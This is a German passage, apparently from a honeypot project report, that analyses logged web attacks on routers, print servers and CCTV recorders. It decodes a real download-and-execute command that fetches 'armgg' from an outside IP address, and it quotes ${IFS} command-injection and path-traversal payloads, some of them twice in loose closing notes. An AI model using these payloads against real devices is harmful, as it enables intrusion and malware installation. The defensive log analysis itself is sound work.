 Auch ein einzelner Eintrag ist an dieser Stelle erwähnenswert, verdeutlicht er doch die Breite des Spektrums, in der Angriffe stattfinden: Der Zugriffsversuch '/HNAP1' zielt auf eine Schwachstelle\footnote{ \textit{Schwachstellen von HNAP}: \url{https://isc.sans.edu/forums/diary/More+on+HNAP+What+is+it+How+to+Use+it+How+to+Find+it/17648/}} in der Implementierung des Home Network Administration Protocols(HNAP) unter anderem bei D-Link\footnote{ \textit{D-Link}: \url{http://www.dlink.com/de/de}}, aber auch anderen Routern hin.\\ 

'./stssys.htm' zählt auch zu der Kategorie einzigartig. So handelt es sich bei dieser Anfrage um den Versuch eine Schwachstelle\footnote{ \textit{Schwachstelle TRENDnet Printserver}: \url{https://neonprimetime.blogspot.de/2016/08/stssyshtm-wget-request.html}} bei TRENDnet Printservern auszunutzen, mit der Folge das betroffene Gerät auf Werkseinstellungen zurücksetzen und somit die IP-Adresse des Gerätes neu zu vergeben.\\

Erst durch die Umwandlung von der hexadezimalen Schreibweise in ASCII offenbart sich '/shell?\%63\%64\%20\%2F\%74\%6D\%70\%3B\%77\%67\%65\%74\%20\%2D\%63\%20\%68\%74\%74\%70\%3A\%2F\%2F\%31\%32\%32\%2E\%31\%31\%34\%2E\%32\%35\%33\%2E\%39\%34\%3A\%31\%35\%35\%32\%31\%2F\%61\%72\%6D\%67\%67\%3B\%63\%68\%6D\%6F\%64\%20\%37\%37\%37\%20\%61\%72\%6D\%67\%67\%3B\%2E\%2F\%61\%72\%6D\%67\%67\%20\%26' als das was er wirklich ist: 'cd /tmp;wget -c http://122.114.253.94:15521/armgg;chmod 777 armgg;./armgg \&'. Über einen 'wget' wird versucht die Ressource 'armgg' von einer IP-Adresse herunterzuladen und gegebenenfalls unterbrochene Downloads, durch den Parameter '-c' für continue, fortzusetzen. 'armgg' soll durch 'chmod 777' von Jedermann gelesen, verändert oder ausgeführt werden können und daraufhin als Hintergrundprozess gestartet werden. Zu gegebener Zeit wird das Projektteam versuchen, diese Datei herunterzuladen und in einer gesicherten Umgebung betrachten.

/language/Swedish\${IFS}\&\&echo\${IFS}610cker
>qt\&\&tar\${IFS}/string.js

/../../../../../../../mnt/mtd/qt

http://www.kerneronsec.com/2016/02/remote-code-execution-in-cctv-dvrs-of.html


Zu guter Letzt ist es auch erwähnenswert, dass auch ein Portscan, hier mit nmap, Spuren\footnote{ \textit{Spuren eines nmap Port-Scans}: \url{http://stateofsecurity.com/?p=467 }} in den Log-Files eines Webservers hinterlässt, so sind die Einträge '/nmaplowercheck1480791133' und '/nice\%20ports\%2C/Tri\%6Eity.txt\%2ebak' zurückzuführen auf einen, vom Projektteam selbst, durchgeführten Scan.


Maßlos unterschätzt was da auf uns einprasselt

/language/Swedish\${IFS}\&\&echo\${IFS}610cker
>qt\&\&tar\${IFS}/string.js

/../../../../../../../mnt/mtd/qt


-> Man hätte noch IP-Adressen auswerten können indem man python-file von SNARE editiert hätte -> Zeitgründe

